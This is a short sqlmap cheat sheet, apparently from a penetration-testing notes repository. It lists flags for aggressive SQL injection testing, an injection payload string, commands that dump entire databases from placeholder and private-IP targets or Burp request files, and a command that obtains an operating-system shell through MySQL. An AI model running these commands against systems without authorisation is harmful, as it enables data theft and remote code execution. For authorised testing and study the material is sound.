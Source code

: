 # sqlmap

## level and risk options
--level 5
--risk 3

## custom injection marker
use an asterisk symbol to mark an injection point in a URL
` http://target.box/vuln.php?a=1&b=* `

### specify exact SQL injection
close out SQL syntax correctly and include injection marker
`',1,1);select 1*---`

## search string response on site for successful injection
--string "successful injection text here"

## Test All (Default Settings)
```bash
-u "http://192.168.0.1/database/inject.php?q=user" --batch
```

## Test All (Default Settings, High Stress)
```bash
-u "http://192.168.0.1/database/inject.php?q=user" --batch --level=5 --risk=3
```

## with burp request Test All (Default Settings)
```bash
--all -r post_request.txt --batch 
```

## with burp request Test All (Default Settings, High Stress)
```bash
--all -r post_request.txt --batch --level=5 --risk=3
```

## with burp request Get A Reverse Shell (MySQL)
```bash
-r post_request.txt --dbms "mysql" --os-shell
```
